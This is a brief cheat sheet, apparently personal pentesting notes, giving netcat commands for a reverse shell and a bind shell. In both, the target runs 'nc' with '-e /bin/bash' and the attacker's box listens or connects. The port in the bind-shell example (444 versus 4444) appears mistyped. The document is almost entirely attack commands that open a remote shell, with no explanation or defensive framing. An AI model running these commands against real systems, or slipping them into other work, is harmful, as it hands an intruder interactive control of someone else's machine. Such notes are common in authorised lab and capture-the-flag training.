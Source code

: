 ### Reverse shell:
Attackbox:
nc -lvnp 4444

Target:
nc <ip> 4444 -e /bin/bash

### Bind shell:
Attackbox:
nc <ip> 4444

Target:
nc -lvnp 444 -e /bin/bash